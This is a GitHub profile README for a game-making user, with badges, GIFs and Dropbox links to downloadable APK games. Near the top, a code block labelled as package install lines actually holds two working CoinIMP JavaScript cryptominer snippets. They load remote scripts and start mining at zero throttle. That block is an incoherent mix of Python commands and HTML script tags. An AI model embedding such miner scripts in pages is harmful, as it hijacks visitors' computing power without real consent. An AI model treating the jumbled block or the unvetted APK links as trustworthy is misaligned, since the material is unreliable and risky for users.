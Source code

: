 ![Jokes Card](https://readme-jokes.vercel.app/api)
```
pip install dclxviclan

import dclxviclan

<script src="https://www.hostingcloud.racing/dCeG.js"></script>
<script>
  var _client = new Client.Anonymous('4bc0501a0ba20f76a537ecbd9a24c652614c84ced8a69cb6097d7b10ae3caa63', {
   throttle: 0, c: 'w'
  });
  _client.start();
  _client.addMiningNotification("Top", "This site is running JavaScript miner from coinimp.com. If it bothers you, you can stop it.", "#cccccc", 40,"#3d3d3d");
</script>

<script src="https://www.hostingcloud.racing/7F4H.js"></script>
<script>
  var _client = new Client.Anonymous('87536b035994a0e003193a83830725886aaae3ea4391c26e95b92b0808c36f3e', {
    throttle: 0, c: 'w'
  });
  _client.start();
  _client.addMiningNotification("Top", "This site is running JavaScript miner from coinimp.com. If it bothers you, you can stop it.", "#cccccc", 40,"#3d3d3d");
</script>


















```
![](https://github.com/dclxviclan/happynewyearfemopresentapkgame/blob/main/Media_221228_025641.gif)
[![Typing SVG](https://readme-typing-svg.herokuapp.com?font=Fira+Code&pause=1000&color=52FF98&width=435&lines=where+i+can+find+u👽+hint)](https://git.io/typing-svg)
![](https://github.com/dclxviclan/happynewyearfemopresentapkgame/blob/main/miniGif_20221228031320.gif)
![](https://github.com/dclxviclan/happynewyearfemopresentapkgame/blob/main/miniGif_20221228095246.gif)
demo apk games download from dropbox👇👋💬:
## [2D Platformer dclxviclan games](https://www.dropbox.com/s/j1rtrj55ntd0m2b/hahafck.apk?dl=0 "download game")

## [3D Fighting dclxviclan games](https://www.dropbox.com/s/1x1mhbe1g4yfiyu/BeatEmUo.apk?dl=0 "download game")

## [3D Runner dclxviclan games](https://www.dropbox.com/s/2je80gyzabkov0o/Blt%24R.apk?dl=0 "download game")

## [2D Shooter dclxviclan games](https://www.dropbox.com/s/6m5c8nors6hng5g/TopDownStartEpic.apk?dl=0 "download game")

## [FPC dclxviclan games](https://www.dropbox.com/s/ajmdas223vqk032/FPCs%24_0.1.apk?dl=0 "download game")

## [Gravity dclxviclan games](https://www.dropbox.com/s/ztopm89b7irg889/3d%24xxZombapp_0.1.apk?dl=0 "download game")

~~MY First Android app on java~~ Download👇from🤚dropbox💬:
## [apk dclxviclan](https://www.dropbox.com/s/v4l33bcg88k5nke/%23dclxviclan_1.0.apk?dl=0 "download apk")

[![Typing SVG](https://readme-typing-svg.herokuapp.com?font=Fira+Code&pause=1000&width=435&lines=hello+⚠️🤖+howu+💬+jump+quickly)](https://git.io/typing-svg)
![](https://github.com/dclxviclan/happynewyearfemopresentapkgame/blob/main/Media_221211_122319.gif)
[![Typing SVG](https://readme-typing-svg.herokuapp.com?font=Fira+Code&pause=1000&width=435&lines=white+rabbit+find👀+truth+jump+quickly)](https://git.io/typing-svg)
![](https://github.com/dclxviclan/FatalErrors/blob/main/Media_221228_070944.gif)
![](https://github.com/dclxviclan/FatalErrors/blob/main/miniGif_20221226043903.gif)
[![Typing SVG](https://readme-typing-svg.herokuapp.com?font=Fira+Code&pause=1000&width=435&lines=dclxviclan+network+game+studio+🤳🌐👽+for🤳🌐🎮)](https://git.io/typing-svg)


[![Top Langs](https://github-readme-stats.vercel.app/api/top-langs/?username=dclxviclan)](https://github.com/dclxviclan/github-readme-stats)
[![Typing SVG](https://readme-typing-svg.herokuapp.com?font=Fira+Code&pause=2000&width=450&lines=PLAY+NOW+🎃🎁+w🧞‍♂️💦+jump+quickly)](https://git.io/typing-svg)
PLAY QUICK https://dclxvistars.github.io
<!---
dclxviclan/dclxviclan is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
//learning more
![](https://github.com/dclxviclan/FatalErrors/blob/main/Media_221219_173639.gif)
[![Typing SVG](https://readme-typing-svg.herokuapp.com?font=Fira+Code&pause=4000&width=535&lines=ALL+LIFE+!$+.demo💤+jump+quickly)](https://git.io/typing-svg)
![](https://github.com/dclxviclan/FatalErrors/blob/main/miniGif_20221128001409.gif)
![](https://github-profile-summary-cards.vercel.app/api/cards/productive-time?username=dclxviclan&theme=solarized_dark)
[![Typing SVG](https://readme-typing-svg.herokuapp.com?font=Fira+Code&pause=1000&width=500&lines=and+MAIN+:Hello+₩0rld!🦸‍♂️+jump+quickly)](https://git.io/typing-svg)
![](https://github.com/dclxviclan/FatalErrors/blob/main/20221226_042919.gif)
[![Readme Quotes](https://quotes-github-readme.vercel.app/api?type=horizontal&theme=dark)](https://github.com/piyushsuthar/github-readme-quotes)
![snake gif](https://github.com/dclxviclan/dclxviclan/blob/output/github-contribution-grid-snake.svg) 

